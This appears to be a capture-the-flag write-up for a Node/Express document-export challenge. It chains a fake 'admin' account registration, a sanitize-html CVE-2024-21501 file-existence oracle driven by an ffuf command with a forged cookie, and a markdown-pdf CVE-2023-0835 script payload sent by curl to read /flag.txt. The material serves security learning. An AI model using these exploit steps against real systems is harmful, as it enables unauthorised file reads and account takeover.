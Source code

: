 # Dark Runes

## Primitives
### Have
- Arbitrary file read via outdated markdown-pdf library
    - This sits behind a pin which is written to a file. I'll need to either:
        - Overwrite the file with something I know
        - Break the crypto scheme to predict values
        - Read the file
        - Command execution
- Privilege escalation / authentication bypass via unregistered admin account / account takeover

### Want
- Privilege escalation
- Information leak
- Arbitrary file write 

## Dependency Analysis

```
"better-sqlite3": "^9.5.0",
"body-parser": "^1.20.2",
"cookie-parser": "^1.4.6",
"ejs": "^3.1.10",
"express": "^4.19.2",
"markdown-pdf": "11.0.0",
"node-html-markdown": "^1.3.0",
"sanitize-html": "^2.12.0"
```

- ejs potential - ssti
    - https://github.com/advisories/GHSA-j5pp-6f4w-r5r6
    - https://github.com/mde/ejs/issues/720
- markdown-pdf - file read / xss
    - https://fluidattacks.com/advisories/relsb/
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0835
- sanitize-html - information exposure
    - https://nvd.nist.gov/vuln/detail/cve-2024-21501
    - https://gist.github.com/Slonser/8b4d061abe6ee1b2e10c7242987674cf

k00lbeanz
password

### markdown-pdf
- Imported in `src/utils/exporter.js`
    - Used in subroutine `generatePDF`
    - This subroutine can be invoked from two HTTP URL endpoints
        - /document/export/:id
        - /document/debug/export
            - Both of these endpoints require administrative privileges
            - The /document/debug/export endpoint will require me to know the contents of the 'ACCESS_PASS' file.


## Entry Points
```
$ grep -Er "^router\.(get|post)"
src/routes/documents.js:router.post("/documents", isAuthenticated, (req, res) => {
src/routes/documents.js:router.get("/documents", isAuthenticated, (req, res) => {
src/routes/documents.js:router.post("/document/:id/delete", isAuthenticated, (req, res) => {
src/routes/documents.js:router.get("/documents/new", isAuthenticated, (req, res) => {
src/routes/documents.js:router.get("/document/:id", isAuthenticated, (req, res) => {

src/routes/generate.js:router.get("/document/export/:id",isAuthenticated,isAdmin,
src/routes/generate.js:router.post("/document/debug/export", isAuthenticated, isAdmin, async (req, res) => {

src/routes/auth.js:router.get("/login", (req, res) => {
src/routes/auth.js:router.get("/register", (req, res) => {
src/routes/auth.js:router.post('/login', (req, res) => {
src/routes/auth.js:router.post('/register', (req, res) => {
```

## Components
- Authenticator / Authorization checker
    - Session management w/ cookies
- Database
    - sqlite3
- File system handler
    - Read
    - Write
    - Used for 2fa ??
- Documents ??
    - Parser
    - Generator
        - Generates PDFs using `markdown-pdf` library
- Debug 

## Other Notes
- There are two middleware subroutines. Both are used to check AuthN/AuthZ
    - isAuthenticated
    - isAdmin

- Checking for sqli
```
$ grep -r "db\.prepare"    
src/database.js:const findUser = (username) => db.prepare('SELECT * FROM users WHERE username = ?').get(username);
src/database.js:                db.prepare('INSERT INTO users (username, password) VALUES (?, ?)').run(username, hash);
src/database.js:        const stmt = db.prepare('SELECT * FROM documents WHERE user_id = ?');
src/database.js:        const stmt = db.prepare('SELECT * FROM documents WHERE id = ? AND user_id = ?');
src/database.js:const deleteDocument = (id) => db.prepare('DELETE FROM documents WHERE id = ?').run(id);
src/database.js:        const stmt = db.prepare('INSERT INTO documents (user_id, content, integrity) VALUES (?, ?, ?)');
```

- Cookie signatures is not properly implemented. If an attacker knows the username and their id then they can create a cookie for that user
    - We would need to know the `SECRET` variable in order to perform this attack
- Re-review `generateAccessCode` in `src/utils/crypto.js`
- Re-review `generatePDF` in `src/utils/export.js`

- mfw the `isAdmin` middleware subroutine just checks if your username is admin. Only users you create are in the database so just create a user named 'admin'

- The secret access code generated by `generateAccessCode` is only 4 digits in length. This would be very easy to brute force.
    - How often does the `rotatePass` get invoked?
        - rotatePass gets invoked upon each incorrect pass check in the /document/debug/export URL. This means it will change after every guess and we only have a 1/10000 chance of getting it correct the first time.

- The `ACCESS_PASS` can only be 4 digits so 10**4 is 10,000 which is easier to brute-force
- We'll need to use CVE-2024-21501 to enumerate the files on the filesystem.

## Using CVE-2024-21501 to Enumerate Files on the Filesystem

- A PoC for CVE-2024-21501 is here https://gist.github.com/Slonser/8b4d061abe6ee1b2e10c7242987674cf


- Check if a file exists
```html
<!DOCTYPE html>
<html>
    <body>
        <a style='background-image: url("/*# sourceMappingURL=/etc/passwd */");'>@k00lbeanz</a>
    </body>
</html>
```
- You should be returned an HTML element which does not contain the `style` element.
    - `<a>@k00lbeanz</a>;`

- Check if a file doesn't exist
```html
<!DOCTYPE html>
<html>
    <body>
        <a style='background-image: url("/*# sourceMappingURL=./this/does/not/exist */")'>@k00lbeanz</a>;
    </body>
</html>
```
- You should see the sourceMappingURL in the result
    - `<a style="background-image:url(&quot;/*# sourceMappingURL=./this/does/not/exist */&quot;)">@k00lbeanz</a>;`

- Exploiting this will give us the ACCESS_PASS which will allow us to deliver CVE-2023-0835 to the target and get /flag.txt

```s
$ ffuf -w ./wordlist.txt -i -s -k -X $'POST' \
    -H $'Host: 94.237.63.90:35147' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 253' -H $'Origin: http://94.237.63.90:35147' -H $'Connection: keep-alive' -H $'Referer: http://94.237.63.90:35147/documents/new?' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    -b $'user=eyJ1c2VybmFtZSI6ImFkbWluIiwiaWQiOjF9-745799fa7adf6236a805bcae40f8ec9fb3ab6d6589996cd5b4b37195cb50b097' \
    --data-binary $'content=%3C%21DOCTYPE+html%3E%0D%0A%3Chtml%3E%0D%0A++++%3Cbody%3E%0D%0A++++++++%3Ca+style%3D%27background-image%3A+url%28%22%2F*%23+sourceMappingURL%3D./FUZZ+*%2F%22%29%3B%27%3E%40k00lbeanz%3C%2Fa%3E%3B%0D%0A++++%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E' \
    -u $'http://94.237.63.90:35147/documents'
```


- Possible pin 0767
    - test with
        - `<a style='background-image: url("/*# sourceMappingURL=./7081 */");'>@k00lbeanz</a>`

- url encode the following payload
```js
<script>
 document.write(window.location);
 xhr = new XMLHttpRequest;
 xhr.onload=function(){document.write((this.responseText))};
 xhr.open("GET","file:///flag.txt");
 xhr.send();
</script>
```

- The following gets us the flag:
```s
curl -s -X POST "http://94.237.63.90:35147/document/debug/export" -H "Cookie: user=eyJ1c2VybmFtZSI6ImFkbWluIiwiaWQiOjF9-745799fa7adf6236a805bcae40f8ec9fb3ab6d6589996cd5b4b37195cb50b097" -d 'access_pass=0767&content=%3c%73%63%72%69%70%74%3e%0a%20%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%29%3b%0a%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%3b%0a%20%78%68%72%2e%6f%6e%6c%6f%61%64%3d%66%75%6e%63%74%69%6f%6e%28%29%7b%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%28%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%29%29%7d%3b%0a%20%78%68%72%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%2e%74%78%74%22%29%3b%0a%20%78%68%72%2e%73%65%6e%64%28%29%3b%0a%3c%2f%73%63%72%69%70%74%3e' -o w00p.pdf
```